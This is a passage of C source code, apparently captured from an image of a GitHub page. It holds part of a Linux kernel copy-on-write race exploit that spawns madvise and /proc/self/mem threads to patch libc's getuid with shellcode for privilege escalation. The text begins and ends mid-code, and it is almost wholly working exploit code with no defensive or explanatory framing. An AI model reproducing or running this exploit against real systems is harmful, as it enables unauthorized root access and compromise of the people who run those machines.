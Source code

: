 
	printf("[*] exploiting (%s)\n", do_patch ? "patch": "unpatch");

	mem_arg->do_patch = do_patch;

	pthread_create(&pth1, NULL, madviseThread, mem_arg);
	pthread_create(&pth2, NULL, procselfmemThread, mem_arg);

	pthread_join(pth1, NULL);
	pthread_join(pth2, NULL);
}

static unsigned long get_getuid_addr(void)
{
	unsigned long addr;
	void *handle;
	char *error;

	dlerror();

	handle = dlopen("libc.so.6", RTLD_LAZY);
	if (handle == NULL) {
		fprintf(stderr, "%s\n", dlerror());
		exit(EXIT_FAILURE);
	}

	addr = (unsigned long)dlsym(handle, "getuid");
	error = dlerror();
	if (error != NULL) {
		fprintf(stderr, "%s\n", error);
		exit(EXIT_FAILURE);
	}

	dlclose(handle);

	return addr;
}

int main(int argc, char *argv[])
{
	unsigned long start, end;
	unsigned long getuid_addr;
	struct mem_arg mem_arg;
	struct stat st;
	pid_t pid;
	int fd;

	if (get_range(&start, &end) != 0)
		errx(1, "failed to get range");

	printf("[*] range: %lx-%lx]\n", start, end);

	getuid_addr = get_getuid_addr();
	printf("[*] getuid = %lx\n", getuid_addr);

	mem_arg.patch = malloc(sizeof(SHELLCODE)-1);
	if (mem_arg.patch == NULL)
		err(1, "malloc");

	mem_arg.unpatch = malloc(sizeof(SHELLCODE)-1);
	if (mem_arg.unpatch == NULL)
		err(1, "malloc");

	memcpy(mem_arg.unpatch, (void *)getuid_addr, sizeof(SHELLCODE)-1);
	memcpy(mem_arg.patch, SHELLCODE, sizeof(SHELLCODE)-1);
	mem_arg.patch_size = sizeof(SHELLCODE)-1;
	mem_arg.do_patch = true;

	fd = open(LIBC_PATH, O_RDONLY);
	if (fd == -1)
		err(1, "open(\"" LIBC_PATH "\")");
	if (fstat(fd, &st) == -1)
